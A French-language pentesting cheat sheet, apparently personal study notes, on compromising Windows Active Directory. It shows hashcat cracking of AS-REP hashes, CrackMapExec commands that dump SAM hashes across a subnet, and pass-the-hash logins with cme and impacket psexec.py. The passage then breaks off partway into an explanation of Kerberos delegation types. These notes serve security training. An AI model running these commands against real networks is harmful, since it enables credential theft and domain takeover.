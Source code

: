 ### Cracking AS-REP
Si GetNPUsers retourne une chaine de caractère, on peut tenter de la craquer avec hashcat:
```bash
hashcat -m 18200 -a 0 .\<path>.hash /usr/share/wordlists/rockyou.txt
```

# Privilege Escalation 

# Path traversal / Compromission de domaine
## NTLM
### Path the hash
1.  extraire les hash de sam
(nécessite les droits admin) utilisation de l'option --sam
```powershell
cme smb 10.10.10.0/24 -u pixis -p P4ssw0rd -d medic.ex --sam
```
2. utilisation hash NT
option -H pour spécifier le hash NT et --local-auth
```powershell
cme smb 10.10.10.0/24 -u Administrateur -H aad3b435b51404eeaad3b435b51404ee:01a27c88a6c1bd0ab0944599129c58a6 --local-auth
```
pour les outils propres à l suite impacket -hashes
```powershell
psexec.py Administrateur@dc01.medic.ex -hashes aad3b435b51404eeaad3b435b51404ee:01a27c88a6c1bd0ab0944599129c58a6
```

## Kerberos
_Source _:
Cours délégation kerberos https://openclassrooms.com/fr/courses/7723396-assurez-la-securite-de-votre-active-directory-et-de-vos-domaines-windows/7945561-compromettez-le-domaine-en-elevant-vos-privileges 
_Info de base_:  
 - Délégation Kerberos : Le principe est de permettre à un compte de service de se faire passer pour un utilisateur auprès d’un autre service.
 ![](../img/Windows/delegation_kerberos.png)
     Il existe trois types de délégation :
     - Non contrainte 
     - contrainte (liste de ressources autorisées)
     - contrainte basée sur les ressources :